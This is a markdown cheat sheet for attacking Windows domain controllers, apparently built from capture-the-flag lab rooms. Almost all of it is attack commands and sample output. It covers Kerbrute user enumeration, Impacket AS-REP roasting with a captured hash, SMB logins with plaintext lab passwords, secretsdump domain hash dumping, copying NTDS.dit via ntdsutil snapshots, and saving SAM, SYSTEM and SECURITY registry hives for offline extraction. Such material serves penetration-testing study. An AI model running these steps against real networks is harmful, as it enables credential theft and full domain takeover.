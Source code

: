 # Domain Controllers

## Basics

* Find the NETBIOS Domain Name

```
nbtscan -v 10.10.8.1-254
```

* Should also be in nmap output

```
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   DNS_Tree_Name: spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-08-20T18:00:52+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
```

* Add to `/etc/hosts`

## Kerbrute

* Find valid users
* Example Syntax

```
kerbrute -users userlist.txt -domain spookysec.local -dc-ip 10.10.55.114
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Valid user => james
[*] Valid user => svc-admin [NOT PREAUTH]
[*] Valid user => James
[*] Valid user => robin
[*] Blocked/Disabled user => guest
[*] Valid user => darkstar
```

## Impacket

* Location:

```
/usr/share/doc/python3-impacket/examples/
```

* If we have IPC$ access without authentication we are able to list the domain users as anonymous

```
python3 lookupsid.py anonymous@10.10.10.10 | tee users.txt
```

* Isolate the users with `SidTypeUser`

```
grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users.txt
```

* Now, let’s use `GetNPUsers.py` to find users without Kerberos pre-authentication:

```
python3 GetNPUsers.py vulnnet-rst.local/ -no-pass -userfile usernames.txt
```

* Should retrive a hash if the command is sucessful

```
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:692e76f70a8772c46ed94e73130460c8$713b0693498fdaff68642d78e713ca965e5007d5d864ca727289930783fe28f00bf79fef8126c4722d09cafc72ec60e940d31297591f67ce049030cb531ddd9c83cd37796fbf414b830a7c90fe26d2c45d6f2b624cd4413c58e3dbb77519dd69906248f8db27b1974b880a826003e562e25d9de9e4cb7cfa85c1de954761053b7d51a455530001348b46909f91f4e80bae7374071339f0920bb3e2ad95169d20f05d0cd586882facb63c058072dacb7ec8ddbcd9297331e1f6fb6d844ea7967659bee38fde4431af9f9608e9adcb38cb6e20e72bcf61c524f480b5ea2530e16dbeed2272855a61a05c03e84653aa1a3bbbd5ece06633
```

* Crack the hash with `john`

### SMB Samba authenticated access

```
smbclient -U vulnnet-rst.local/t-skid //10.10.100.15/NETLOGON
smbmap -u svc-admin -p management2005 -H 10.10.248.93
smbclient -U spookysec.local/svc-admin \\\\10.10.248.93\\backup 
```

* Cat out files with `smb`

```
Enter VULNNET-RST.LOCAL\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 17 00:15:49 2021
  ..                                  D        0  Wed Mar 17 00:15:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 00:18:14 2021

        8540159 blocks of size 4096. 4318542 blocks available
smb: \> get ResetPassword.vbs -
```



### Dump hashes

* Use `secretsdump.py` with impacket
* This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer.
* Creds used need to be domain admin for this to work

```
python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.100.15
python3 secretsdump.py spookysec.local/backup:backup2517860@10.10.248.93
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
```

![spooky](https://user-images.githubusercontent.com/75596877/130284812-511a8141-5917-4954-8c29-e623c1edce36.png)

#### Alt Method

* Open `cmd.exe`
* Run `ntdsutil` from the command prompt, enter these commands

```
snapshot
activate instance NTDS
create
```

* Takes a snapshot of the DC
* Will show you the UUID of the newly created snapshot.
* ntdsutil is using Volume Shadow Copy for the snapshot creation, but also ensures the database consistency. Use the UUID for the following command:

```
mount <UUID>
```

* The output will show the path where the snapshot was mounted. Start another cmd.exe as Administrator and copy NTDS.dit (located in `Windows\NTDS\NTDS.dit` by default).
* Create a copy of the `SYSTEM` registry hive:

```
reg.exe save HKLM\SYSTEM <path_where_you_want_to_save_it>
```

* Go back to the `cmd.exe` window with `ntdsutil` running, and `unmount` (and optionally `delete`) the snapshot and exit:

```
unmount <UUID>
delete <UUID>
quit
quit
```

* Using the two saved files (`NTDS.dit` and `SYSTEM` registry hive) you can use the same `secretsdump.py` script to extract password hashes offline (doesn’t need to be done on the domain controller):

```
secretsdump.py -system <path_to_system_hive> -ntds <path_to_ntds.dit> LOCAL
```

#### Secretsdump Local

* Exfil the registry hives

```
reg.exe save hklm\security C:\temp\security.save
reg.exe save hklm\system C:\temp\system.save
reg.exe save hklm\SAM C:\temp\sam.save
```

* Extract hashes from exfiled SECURITY SAM and SYSTEM

```
python3 secretsdump.py -security security.save -system system.save -sam sam.save LOCAL
```

#### Another Cheatsheet

* https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
